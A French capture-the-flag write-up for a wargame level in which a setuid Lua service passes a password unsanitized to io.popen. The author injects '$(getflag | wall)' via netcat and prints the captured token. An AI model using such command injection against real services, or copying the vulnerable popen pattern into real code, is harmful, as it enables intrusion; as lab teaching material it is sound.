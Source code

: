 # Level 11

Home structure
```
$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
Le script lua, va ecouter sur le port `5151` et demande un mot de passe mais le plus important c'est la fonction de hash pour le mot de passe. On voit qu'il utilise `popen` de lib io. Ce que fait `popen` est de tous simplement executer le premier paramètre dans bash (Comme dans `system()`).
<br/>
Ce qui voudrait dire qu'on pourrait executer n'importe quel commande via le paramètre pass de la fonction `hash`.
```lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end
...
```
On se connecte donc via `netcat`, il nous demande un mot de passe et on lui donne la command à executer dans un sous shell et le broadcast à tous les users.

```
$ nc 127.0.0.1 5151
Password: $(getflag | wall)

Broadcast Message from flag11@Snow
        (somewhere) at 15:32 ...

Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

Erf nope..
```
